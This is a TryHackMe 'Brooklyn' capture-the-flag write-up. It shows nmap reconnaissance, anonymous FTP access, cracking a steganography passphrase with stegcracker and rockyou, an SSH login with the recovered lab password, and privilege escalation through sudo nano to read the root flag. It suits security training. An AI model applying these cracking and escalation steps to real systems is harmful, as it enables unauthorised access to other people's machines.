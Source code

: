 ```yaml
---
title: TryHackMe - brooklyn
author: Bonface
date: 2024-04-18 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - ftp
  - ssh
  - http
  - stenography
  - SUID
image:
  path: /assets/img/try_hack_me/Easy/Brooklyn/0.jpeg
  alt: brooklyn
---
```


# Brooklyn

This room is aimed for beginner level hackers but anyone can try to hack this box.  
There are two main intended ways to root the box.  


# Tasks
- Read the User and root flag.  

# nmap

## ip = `10.10.36.221`

## Command 
```sh

 nmap -sV -sC -A -v 10.10.36.221 |tee nmap.txt
```
## Results
```sh
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 0 0
119 May 17 2020 note_to_jake.txt
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.8.172.59
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| 256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_ 256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site does not have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# ftp_21
Has `anonymous` log in allowed and has a text file in it.  
 ![](../assets/img/try_hack_me/Easy/Brooklyn/1.png)
 
## Details
![](../assets/img/try_hack_me/Easy/Brooklyn/2.png)

Two users  
- `Jake` = has a weak password  
- `holt` =Looks like he has some privileges   

# http_80

## To Do list
- visit he site
- View the source code
- visit robots.txt
- run gobuster

The site has an image and the source code tells us something to do with stenography.  
**![](../assets/img/try_hack_me/Easy/Brooklyn/2.png)

Download the image.  
Use the following command to crack the image passphrase.  
```sh
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 
```
![](../assets/img/try_hack_me/Easy/Brooklyn/4.png)

From This we get  
![](../assets/img/try_hack_me/Easy/Brooklyn/5.png)

- user = `holt`
- password = `fluffydog12@ninenine`

# ssh_22

## Details

- users = `jake` and `holt`
- port 22 open
- Password for `holt` = `fluffydog12@ninenine`


Lets try ssh to holt using the following info

## ssh login
```sh
	ssh holt@10.10.36.221	
	#password = fluffydog12@ninenine
```  
![](../assets/img/try_hack_me/Easy/Brooklyn/6.png)

# Privilege Escalation

## To Do List
- sudo -l  
- cat /etc/crontab  

![](../assets/img/try_hack_me/Easy/Brooklyn/7.png)
## sudo -l
We get that we can run `/bin/nano` with root privileges without a password.  
I will try to read the root flag since i have the flag name format from user .txt.  
```sh
 	sudo /bin/nano /root/root.txt
 ```
![](../assets/img/try_hack_me/Easy/Brooklyn/8.png)
 